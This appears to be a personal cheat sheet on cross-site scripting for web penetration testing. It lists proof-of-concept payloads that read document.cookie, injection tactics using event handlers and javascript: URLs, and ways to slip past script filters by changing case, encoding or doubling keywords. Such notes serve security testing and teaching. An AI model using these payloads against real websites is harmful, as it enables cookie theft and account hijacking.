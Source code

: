 ```yaml
---
title:  "Cross Site Scripting (XSS)"
topic: "web"
---
```

# Introduction
* Standard poc atttack string: `"><script>alert(document.cookie)</script>"`


# Strategy
* Test every entrypoint and find where these inputs (chosen so that they shouldn't be filtered) are displayed back to the user
* Sanitized/decoded/modified input can still be enough for exploitation

# Tactics
* Chack the page source code, not only the page rendered by the browser
* URL encode payload ?
* Remain within a tag using `onload` attribute: `" onload=alert()`
* If input returned inside a JS quoted string, ensure injected payload valid. Can comment the remainder using `//`
* Attribute containing an url: `javascript:alert()`
* Invalid image name: `#" onclick="javascript:alert()`

# Filters evading
## script filters
* Add space: `"><script >alert(document.cookie)</script >"`
* Change case: `"><ScRiPt>alert(document.cookie)</ScRiPt>"`
* Hex encoding: `"%3e%3cscript%3ealert(document.cookie)%3c/script%3e"`
* Double `script` keyword: `"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>"`
